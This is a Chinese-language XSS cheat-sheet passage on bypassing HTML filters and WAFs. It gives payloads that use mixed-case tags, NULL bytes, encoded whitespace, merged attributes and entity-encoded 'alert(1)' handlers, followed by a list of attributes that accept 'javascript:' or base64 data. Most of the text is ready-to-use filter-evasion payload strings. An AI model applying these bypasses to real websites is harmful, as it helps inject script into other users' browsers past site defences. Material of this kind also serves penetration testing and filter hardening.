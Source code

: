 ###### 4.HTML 绕过技巧

4.1 标签名绕过

-  大小写混淆：`<iMg onerror=alert(1) src=a>`

-  插入 NULL 字节：`<%00img onerror=alert(1) src=a>`

- 空格替代字符：

```javascript
<img%09onerror=alert(1) src=a>  
<img%0aonerror=alert(1) src=a>  
<img/"onerror=alert(1) src=a>   
```

4.2 属性名绕过

```plain
<img o%00nerror=alert(1) src=a>
```

4.3 属性分隔绕过

```javascript
<imgonerror='alert(1)'src=a>
```

4.4 属性值编码绕过

```javascript
<imgonerror=a%00lert(1) src=a>
<imgonerror=a&#x006c;ert(1) src=a>
```

###### 4.5 可编码属性（常用于 XSS 编码绕过）

这些属性可以被用于注入 JavaScript 代码，某些属性支持 `base64` 编码或 `javascript:` 协议，可用于绕过 WAF 或过滤器。

------

###### 🔗 URL 类型属性（支持 `javascript:` 协议）

- `href=` — 常用于 `<a>`、`<link>` 等标签中
- `action=` — 表单提交地址
- `formaction=` — 按钮指定的提交地址
- `location=` — 一些框架或 JS 上下文中可被利用

------

###### 🖼️ 资源加载类属性（支持 base64 或外链）

- `src=` — 如 `<img>`、`<script>`、`<iframe>` 等
- `data=` — 如 `<object>`，支持 `data:base64` 格式
- `poster=` — `<video>` 首帧图
- `background=` — `<body>`、`<table>` 背景图
- `code=` — Applet 使用的参数（老旧技术）

------
